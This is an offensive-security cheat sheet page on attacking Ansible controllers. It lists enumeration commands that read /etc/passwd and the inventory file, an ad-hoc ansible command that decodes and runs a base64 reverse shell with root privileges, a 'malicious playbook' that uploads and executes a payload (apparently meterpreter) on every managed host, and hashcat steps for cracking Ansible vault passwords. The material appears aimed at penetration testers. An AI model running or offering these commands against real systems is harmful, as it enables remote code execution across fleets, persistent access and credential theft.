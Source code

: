 # Ansible




## Enumeration

When on ansible controller:

```
$ cat /etc/passwd | grep ans
$ cat /etc/ansible/hosts
$ ansible --version
```




## Execute Code

Using ad-hoc commands:

```
$ ansible <GROUP_NAME> -m shell -a "echo <BASE64_REVERSE_SHELL>|base64 -d|/bin/bash" --become
```

Malicious playbook example:

{% code title="evil.yml" %}
```yaml
# ansible-playbook evil.yml
- name: Evil playbook
  hosts: all
  gather_facts: true
  tasks:
    - name: upload
      copy:
        src: /tmp/met
        dest: /dev/shm/met
        mode: a+x
    - name: execute
      shell: "nohup /dev/shm/met &"
      async: 10
      poll: 0
```
{% endcode %}




## Crack the Vault

When vault-encrypted creds are discovered, the vault passwords can be cracked with hashcat:

```
$ /usr/share/john/ansible2john.py vuln.yaml
$ hashcat -m 16900 -O -a 0 -w 4 --session=ansible -o vault.out vault.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

The original password can then be decrypted with ansible:

```
$ cat vault.in
$ANSIBLE_VAULT;1.1;AES256
00000000000000000000000000000000000000000000000000000000000000000000000000000000
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
00000000000000000000000000000000000000000000000000000000000000000000000000000000
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
00000000000000000000000000000000000000000000000000000000000000000000

$ cat vault.in | ansible-vault decrypt
```
